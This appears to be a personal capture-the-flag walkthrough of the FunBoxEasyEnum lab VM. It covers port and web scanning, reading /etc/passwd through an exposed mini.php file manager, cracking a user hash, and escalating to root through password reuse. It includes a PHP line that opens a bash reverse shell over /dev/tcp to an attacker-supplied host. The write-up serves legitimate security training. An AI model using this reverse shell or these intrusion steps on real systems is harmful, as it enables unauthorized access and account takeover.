Name: FunBoxEasyEnum
Date: 03/05/2022
Difficulty: Easy
Description: Don't hesitate Enumerate
Better Description:  
Goals: 
Learnt: 

## Recon

```bash
ping -c 3 192.168.55.132                  
PING 192.168.55.132 (192.168.55.132) 56(84) bytes of data.
64 bytes from 192.168.55.132: icmp_seq=1 ttl=63 time=38.5 ms
64 bytes from 192.168.55.132: icmp_seq=2 ttl=63 time=36.2 ms
64 bytes from 192.168.55.132: icmp_seq=3 ttl=63 time=61.8 ms

--- 192.168.55.132 ping statistics ---
3 packets transmitted, 3 received, 0% packet loss, time 2003ms
rtt min/avg/max/mdev = 36.196/45.480/61.750/11.542 ms

nmap -F 192.168.55.132    
Starting Nmap 7.92 ( https://nmap.org ) at 2022-05-03 08:54 BST
Nmap scan report for 192.168.55.132
Host is up (0.064s latency).
Not shown: 98 closed tcp ports (conn-refused)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 0.36 second

nmap -sC -sV -T 4 -p- 192.168.55.132
Starting Nmap 7.92 ( https://nmap.org ) at 2022-05-03 08:54 BST
Warning: 192.168.55.132 giving up on port because retransmission cap hit (6).
Nmap scan report for 192.168.55.132
Host is up (0.043s latency).
Not shown: 65504 closed tcp ports (conn-refused), 29 filtered tcp ports (no-response)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 9c:52:32:5b:8b:f6:38:c7:7f:a1:b7:04:85:49:54:f3 (RSA)
|   256 d6:13:56:06:15:36:24:ad:65:5e:7a:a1:8c:e5:64:f4 (ECDSA)
|_  256 1b:a9:f3:5a:d0:51:83:18:3a:23:dd:c4:a9:be:59:f0 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.29 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 291.88 seconds

nikto -h 192.168.55.132                      
- Nikto v2.1.6
---------------------------------------------------------------------------
+ Target IP:          192.168.55.132
+ Target Hostname:    192.168.55.132
+ Target Port:        80
+ Start Time:         2022-05-03 09:17:40 (GMT1)
---------------------------------------------------------------------------
+ Server: Apache/2.4.29 (Ubuntu)
+ The anti-clickjacking X-Frame-Options header is not present.
+ The X-XSS-Protection header is not defined. This header can hint to the user agent to protect against some forms of XSS
+ The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type
+ No CGI Directories found (use '-C all' to force check all possible dirs)
+ "robots.txt" contains 1 entry which should be manually viewed.
+ Server may leak inodes via ETags, header found with file /, inode: 2aa6, size: 5af9903d91639, mtime: gzip
+ Apache/2.4.29 appears to be outdated (current is at least Apache/2.4.37). Apache 2.2.34 is the EOL for the 2.x branch.
+ Allowed HTTP Methods: GET, POST, OPTIONS, HEAD 
+ Uncommon header 'x-ob_mode' found, with contents: 1
+ OSVDB-3233: /icons/README: Apache default file found.
+ /phpmyadmin/: phpMyAdmin directory found
+ 8073 requests: 0 error(s) and 10 item(s) reported on remote host
+ End Time:           2022-05-03 09:25:55 (GMT1) (495 seconds)
---------------------------------------------------------------------------
+ 1 host(s) tested

```
Default credentials for phpmyadmin did not work, but produce this error exposing mysql server.

```php
mysqli_real_connect(): (HY000/1698): Access denied for user 'root'@'localhost'
```


```bash

gobuster dir -u http://192.168.55.132/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://192.168.55.132/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Extensions:              php
[+] Timeout:                 10s
===============================================================
2022/05/03 10:00:25 Starting gobuster in directory enumeration mode
===============================================================
/javascript           (Status: 301) [Size: 321] [--> http://192.168.55.132/javascript/]
/mini.php             (Status: 200) [Size: 3828]                                       
/phpmyadmin           (Status: 301) [Size: 321] [--> http://192.168.55.132/phpmyadmin/]
/server-status        (Status: 403) [Size: 279]                                        
                                                                                       
===============================================================
2022/05/03 10:38:51 Finished
===============================================================

```
Mini.php allow uploads tried uploading pentest monkey php reverse shell.
I also is a file system under /var/

![mini](Screenshots/miniphp.png)

While thinking I how and why stuff executes on this box:
Chmod is weird.
Replace mini.php with reverse shell or better add a line. It seems like the only thing that can be executed. See ## Foothold



/var/www/local.txt for first flag
You can also go to the '/' directory

http://192.168.64.132/mini.php?filesrc=//etc/passwd&path=//etc
```
# weird hash
oracle:$1$|O@GOeN\$PGb9VNu29e9s6dMNJKH/R0:1004:1004:,,,:/home/oracle:/bin/bash
```
http://192.168.64.132/mini.php?filesrc=//etc/hosts&path=//etc
funbox7 is running on 127.0.1.1



## Foothold

```php

exec("/bin/bash -c 'bash -i > /dev/tcp/$IP/$PORT 0>&1'");

```
Went back to the hash it is:
![hc](Screenshots/hashcat_examples.png)
hiphop

```bash
oracle@funbox7:/tmp$ mysql -u oracle -p
Enter password: 
ERROR 1045 (28000): Access denied for user 'oracle'@'localhost' (using password: YES)
```
Enumerated again and found nothing. I learnt lot about the length of memory for recursive solving.
I was also possible to see this before as www-data

![rtpma](Screenshots/returntophpmyadmin.png)

Went to the webpage logged in nothing on the database.
Password reuse? Highest user is Karla

![root](bigk.png)
```bash
sudo su root 
cat /root/proof.txt
```
